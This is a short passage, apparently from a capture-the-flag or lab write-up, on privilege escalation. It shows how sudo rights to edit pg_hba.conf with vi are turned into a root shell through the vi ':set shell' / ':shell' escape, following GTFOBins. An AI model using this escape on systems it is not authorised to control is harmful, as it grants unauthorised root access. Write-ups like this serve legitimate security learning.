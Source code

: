 ![fail](images/fail.png#center)

Looks like we can edit `pg_hba.conf` with `sudo` privs by using `vi`. So I tried the [basic payload](https://gtfobins.github.io/gtfobins/vi/#sudo) to get a shell. 

```sh
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

```vim
(in vi)
:set shell=/bin/sh`

:shell
```
